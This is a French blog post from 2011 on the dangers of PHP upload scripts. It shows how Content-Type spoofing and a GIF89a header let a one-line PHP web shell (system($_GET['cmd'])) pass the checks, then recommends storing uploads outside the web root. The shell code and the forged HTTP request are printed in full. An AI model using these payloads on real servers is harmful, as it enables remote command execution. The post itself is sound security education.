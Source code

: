 ```yaml
---
title: "PHP : Les dangers des scripts d'upload"
tags: [vulnérabilité, PHP]
---
```


PHP et la sécurité, c'est un peu comme un vieux couple qui passerait son temps à s'envoyer de la vaisselle à la figure : ils arrivent toujours à trouver un sujet de discorde.  
PHP est à la portée de tous... et c'est peut-être ça le problème : on peut faire n'importe quoi avec et surtout rien n'empêche de le faire mal.  

Ce langage est un hybride du shell (variables commençant par le symbole dollar, pas de déclaration de types, très souple) et du C (auquel il n'a malheureusement pris que certains mots clés).  
La logique veut que si PHP soit si simple à utiliser alors il est certes très facile de faire n'importe quoi, mais aussi, ce ne doit pas être bien compliqué de faire de belles choses.  

Par conséquent, le maillon faible de la sécurité de PHP reste principalement le programmeur.  

Toutefois, certaines fonctionnalités de PHP ne viennent pas arranger les choses. Comme on dit, *"It's not a bug, it's a feature."*  

Quand j'ai découvert PHP et sa capacité à inclure des scripts distants (par la fonction `include()` et compagnie), j'ai certainement réagi comme la plupart du monde en disant *"Naaaaan ! Ils n'ont pas fait ça ?!"*  

Je veux bien croire que la lecture d'informations depuis un autre serveur peut-être utile, par exemple pour aller chercher des news sur un site (c'était l'avant-AJAX), mais de là à permettre l'exécution de code il y a un pas qu'il ne fallait mieux ne pas franchir.  

D'ailleurs il ne me semble pas avoir vu jusqu'à présent d'applications ayant recours à l'inclusion distante, seuls les pirates semblent réellement apprécier cette fonctionnalité.  

L'autre ~~gros bug~~ fonctionnalité de PHP concernait l'initialisation des variables : avec l'option `register_globals` activée par défaut, on laissait l'internaute initialiser nos variables à notre place. On se demande où ce cher Rasmus avait la tête.  

Peut-être pensait-il que cela inciterait les développeurs à être plus vigilants... évidemment ce ne fut pas le cas et l'option est maintenant désactivée par défaut.  

Plusieurs mécanismes de sécurité ont été mis en place *par dessus* pour tenter de corriger les erreurs, comme le `safe_mode`. Malheureusement quand ce ne sont pas les développeurs qui sont fautifs, c'est le langage lui-même. PHP a un très lourd passif en termes de failles de sécurité et des méthodes permettant de passer au travers du safe\_mode sont découvertes régulièrement.  

Pour certaines failles, on peut se demander à qui incombe la responsabilité : PHP ou le programmeur ?  
Les failles relatives à l'upload de fichier en font partie. Les scripts permettant à l'internaute d'envoyer un fichier sur le serveur sont souvent mal pensés, reposent sur des à-priori et sont la plupart du temps faillibles. C'est pour cela que [Wapiti](http://wapiti.sourceforge.net/) informe automatiquement quand il en trouve un, même s'il ne peut pas tester leur sécurité.  

Parmi les grosses erreurs de programmation, on peut trouver :  

* la possibilité pour l'internaute de choisir le répertoire de destination
* la possibilité d'écraser un fichier existant
* un manque de vérification sur la nature du fichier (voire pas de vérifications du tout)

Il est évident que plus on laisse de pouvoir à l'internaute, plus les possibilités d'attaque sont nombreuses. Mais même avec certaines vérifications un script peut malgré tout être exploitable.  

Une recherche par Google sur les mots clés _upload php_ nous renvoi [un premier article](http://phpcodeur.net/articles/php/upload) proposant un script d'upload.  

La seule vérification qui est faite porte sur la nature du fichier et correspond aux lignes suivantes :  

```php
// on vérifie maintenant l'extension
$type_file = $_FILES['fichier']['type'];

if( !strstr($type_file, 'jpg') && !strstr($type_file, 'jpeg') && !strstr($type_file, 'bmp') && !strstr($type_file, 'gif') )
{
  exit("Le fichier n'est pas une image");
}
```

Si je crée un fichier `test.php` dont le contenu est le suivant :  

```php
<?php
        system($_GET['cmd']);
?>
```

Et que j'essaye de l'uploader sur le serveur, j'obtiens le message *"Le fichier n'est pas une image"*, la vérification sur le type de fichier a fonctionné.  
Mais regardons de plus près d'où viens la variable `$_FILES['fichier']['type']` : le tableau `$_FILES` est généré à partir de la requête HTTP envoyée par le navigateur.  
Si j'utilise un sniffeur comme [Ethereal](http://www.ethereal.com/) je peux récupérer la requête en question et l'analyser. Voici ce que j'obtiens (j'ai retiré le superflu) :  

```http
POST /vuln/upload.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 314
Content-Type: multipart/form-data; boundary=----------hS7LOLpAKgp2vmwz0gmmrP

------------hS7LOLpAKgp2vmwz0gmmrP
Content-Disposition: form-data; name="fichier"; filename="test.php"
Content-Type: application/octet-stream

<?php
        system($_GET['cmd']);
?>

------------hS7LOLpAKgp2vmwz0gmmrP
Content-Disposition: form-data; name="upload"

Uploader
------------hS7LOLpAKgp2vmwz0gmmrP--
```

On retrouve le nom du fichier, son contenu, ainsi qu'un type `application/octet-stream` pour l'entête `Content-Type`.  
Maintenant je modifie la requête en remplaçant cet entête par `Content-Type: image/jpeg`.

Si j'envoie cette nouvelle requête au serveur (avec netcat par exemple), mon fichier `test.php` est accepté et je peux l'appeler avec l'url <http://localhost/vuln/upload/test.php.>  

Regardons un autre script. Toujours par Google, prenons [le quatrième](http://www.vulgarisation-informatique.com/upload-php.php). Cette fois la vérification de la nature du fichier ne se fait plus par le tableau `$_FILES` mais par la fonction php [getimagesize](http://fr.php.net/getimagesize).  

Quand le fichier est une image cette fonction renvoi un tableau indiquant les dimensions de l'image ainsi que son type sous la forme d'un entier. Un type de 1 correspond à un fichier gif, 2 un jpg, 3 un png... Si le fichier n'est pas une image, la fonction renvoi `FALSE` et le script échouera.  

Ici pour faire passer mon fichier php je n'ai pas beaucoup de choix : il doit être reconnu comme étant une image. La vérification du type de fichier est ici relative au format du fichier, par exemple sur les entêtes du fichier.  

Un fichier image gif commence toujours par les mêmes caractères : `GIF89a`  
Il me suffit alors de créer un fichier cmd.php dont le contenu est le suivant :  

```php
GIF89a<?php system($_GET['cmd']); ?>
```

et le tour est joué... je n'ai même pas besoin de forger moi-même la requête, il suffit d'envoyer le fichier normalement à l'aide du navigateur.  

Il faut noter que cette méthode ne semble pas fonctionner sur le format JPG qui est bien plus complexe. Il est pourtant simple de créer un fichier JPG avec du PHP dedans puisque ce format autorise l'insertion de commentaires. Mais PHP ne parvient pas à interpréter les fichiers générés.  

Tout cela nous montre qu'il est difficile de vérifier qu'un fichier est bien ce qu'il prétend être. La principale solution est tout bêtement de fixer l'extension du fichier uploadé quand cela est possible afin d'empêcher son exécution par le pirate.  

Mais même avec une extension `.gif` un fichier peut être dangereux : si un script permet d'inclure localement l'image du pirate alors PHP exécutera les commandes sans se poser la moindre question.  

La solution qui me semble la plus efficace est de stocker les fichiers dans un répertoire en dehors de la racine web.  

Une base de données doit pour cela stocker le chemin réel du fichier ainsi qu'un identifiant représentant le fichier. Il ne reste plus qu'à créer un fichier `download.php` qui récupère l'identifiant, en déduit le chemin vers le fichier sur le serveur, renvoi certains entêtes pour forcer le téléchargement et effectue un `readfile()` pour envoyer le contenu du fichier.  

Beaucoup de forums proposant l'upload d'avatars sont vulnérables à ces attaques. Ici on ne souhaite pas forcer le téléchargement, mais bien afficher l'image. On peut néanmoins utiliser une technique similaire qui renverrait les informations nécessaires dans les entêtes HTTP (obtenues à l'aide de `getimagesize()` par exemple) puis effectuerait aussi un `readfile()`.  

L'URL des images ressemblerait alors à <http://serveur/image.php?avatar=XXX>  
De plus on peut en profiter pour mettre des vérifications supplémentaires pour empêcher le hotlinking des images, un système de compteurs pour les téléchargements... bref que du bon.  

Je vous laisse une url qui explique comment mettre en place un tel système : <http://www.siteduzero.com/tuto-3-1718-1-upload-de-fichiers-par-formulaire.html>  

Bonne retouche de code ;-)  

PS : A une époque, il était même possible de remonter l'arborescence du serveur et choisir le répertoire pour l'upload en modifiant la partie *"filename"* d'une requête HTTP... Heureusement la faille a été corrigée.

*Published January 06 2011 at 13:41*
